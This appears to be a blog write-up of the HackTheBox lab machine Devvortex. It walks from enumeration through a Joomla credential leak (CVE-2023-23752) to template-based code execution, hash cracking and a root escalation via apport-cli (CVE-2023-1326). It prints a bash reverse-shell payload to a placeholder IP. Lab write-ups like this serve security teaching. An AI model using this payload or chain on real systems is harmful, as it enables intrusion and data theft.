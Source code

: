 ```yaml
---
title: "Devvortex — HackTheBox [Writeup]"
description: "The web framework for content-driven websites."
pubDate: "Jul 13 2022"
---
```


Let’s start with a basic nmap scan

![](../../assets/blog/images/devvortex/1*xwXvB9Z3di6q49q_mT7scQ.png)

We can see that 22 (SSH) and 80 (HTTP) ports are open. 
If you open it in the browser you will be redirected to devvortex.htb. It means we need to add it in /etc/hosts

After doing the previous step and refreshing the page we can see the website content

![](../../assets/blog/images/devvortex/1*3TSkOp95-IPhvbfeSVdrGg.png)

After examining the website I didn’t find anything interesting.
Then I started enumerating directories and vhosts using ffuf

![Directory Enumeration](../../assets/blog/images/devvortex/1*ozdiDdSSOP3Ri1i8B4jBMA.png)

![VHost Enumeration](../../assets/blog/images/devvortex/1*5B9GwPkucjCVFdSXaUsydA.png)

Cool. We found the dev.devvortex.htb subdomain. We need to add it in the hosts file too.

![/etc/hosts file](../../assets/blog/images/devvortex/1*AqUovtv4vSQK8IDsDoNtuw.png)

![](../../assets/blog/images/devvortex/1*rqUzLIDtg6PF-OjkisHLGw.png)

Perfect. Now let’s run a directory scan on this subdomain

![](../../assets/blog/images/devvortex/1*N8lpbWhzgGj3xTmOAAiGXA.png)

We identified a few directories. /administrator directory redirects us to Joomla admin panel

![](../../assets/blog/images/devvortex/1*cUkDkb8fifv3EpZxjWfu2g.png)

We can you [joomscan](https://github.com/OWASP/joomscan) tool to get more information about the website


Joomla version of the website is 4.2.6.
If we search for Joomla 4.2.6 vulnerabilities we will find out that there exists one interesting vulnerability with a publicly known exploit, which allows unauthenticated user access to webservice endpoints which then can lead to information disclosure

![Joomscan Result](../../assets/blog/images/devvortex/1*EYc_Gyb3QcEemuiNGgwUSA.png)

I used this PoC [https://github.com/adhikara13/CVE-2023-23752](https://github.com/adhikara13/CVE-2023-23752)

![](../../assets/blog/images/devvortex/1*xL7OoawD_MTutu_NtJ4K1Q.png)

script gives us database name, username and password. I also tried and used it to login the admin panel and luckily it worked.

![](../../assets/blog/images/devvortex/1*MjF38zToMA_kudFEFZcrbA.png)

When you have Joomla admin credentials it’s so easy to get RCE too using a simple trick. You can check details on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce).

Steps to RCE:

1. Go to System > Site Templates > Cassiopeia Details and Files

1. Choose the file you want to edit (I used error.php)

1. Add the following code in the file and click Save

```
# Replace YOUR_IP with your HackTheBox VPN ip address
system("bash -c'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'")
```

![](../../assets/blog/images/devvortex/1*s6jOepRt4bVxuvlDpXPuNg.png)

4. Start a listener

![](../../assets/blog/images/devvortex/1*nLR7rxHcWHSlIVbQrdjVHg.png)

5. Now load the file you edited (error.php in this case) using the URL
http://dev.devvortex.htb/templates/cassiopeia/error.php and you will get the reverse shell and upgrade to tty shell for better experience

![](../../assets/blog/images/devvortex/1*S8fnKT_86wnsh47ACVqBQg.png)

![](../../assets/blog/images/devvortex/1*7klDJhyU3uAbyRDI8nH3bA.png)

We already have Database Credentials (you can also see them in /var/www/dev.devvortex.htb/configuration.php file) which we exfiltrated earlier using Joomla exploit. Let’s try and connect to the database and try to get more information

![](../../assets/blog/images/devvortex/1*ghU8iVYrVDxw8S5u2_PMfA.png)

you can list tables using show tables; command and you will find out there is a *sd4fg_users* table

![](../../assets/blog/images/devvortex/1*Is99Iialf7GjLIoubhG-ow.png)

Now select data from the table

![](../../assets/blog/images/devvortex/1*JlhMZCfdbevLCtoVUDS4jw.png)

Great! There is another user’s password hash. We can use john to crack it

![](../../assets/blog/images/devvortex/1*oNqXmAV9P08XoYUgsO7Gbg.png)

You can also see in /etc/passwd file that logan is a Linux user

![](../../assets/blog/images/devvortex/1*Exa2HzqRdav_zxJeU2Zsvw.png)

It seems like we might be able to log in ssh using this user and get a user flag

![](../../assets/blog/images/devvortex/1*7JT7D9k6ps7M0Bk2ImXraA.png)

Bingo 🥳

Now it’s time for privilege escalation. Before running LinPEAS or anything I always check sudo -l command to see which commands the user can run using sudo. logan user can run apport-cli using sudo

![](../../assets/blog/images/devvortex/1*7PJ1DNS10cld-IS0oZvBCA.png)

apport-cli is a CLI tool for collecting and analysing data about crashed processes.

Few months ago **CVE-2023–1326** was publish for apport-cli allows attacker to escalate privileges on the system and it looks like there exists publicly known exploits for this vulnerability
[CVE-2023-1326 - Github Advisory Database](https://github.com/advisories/GHSA-qgrc-7333-5cgx)

Let's reproduce it

Steps:
1) Create a file in /var/crash directory

![](../../assets/blog/images/devvortex/1*gOrMJjaYUa-EJ-T9beSJFw.png)

2) execute *sudo apport-cli -c /var/crash/crash.crash less *and choose **V **when prompted

![](../../assets/blog/images/devvortex/1*CT6yj4l9c3JiOcV7pcYvoA.png)

3) Wait for a few seconds and after you see a colon (:) symbol type !whoami and click enter

![](../../assets/blog/images/devvortex/1*1IzINyMmWmfYIqwm0a5myw.png)

![](../../assets/blog/images/devvortex/1*_k4T_zyzPBDmuJuTBmU9RA.png)

Perfect. We are **root**

Now type !cat /root/root.txt to get a flag

![](../../assets/blog/images/devvortex/1*KQCfB43gi_KoYHOcGfw28g.png)

![](../../assets/blog/images/devvortex/1*oSAtG5i8E57P5nlYTuokkg.png)

Pwn3d! 🏁

Follow me: [https://twitter.com/_Lazzarus](https://twitter.com/_Lazzarus)
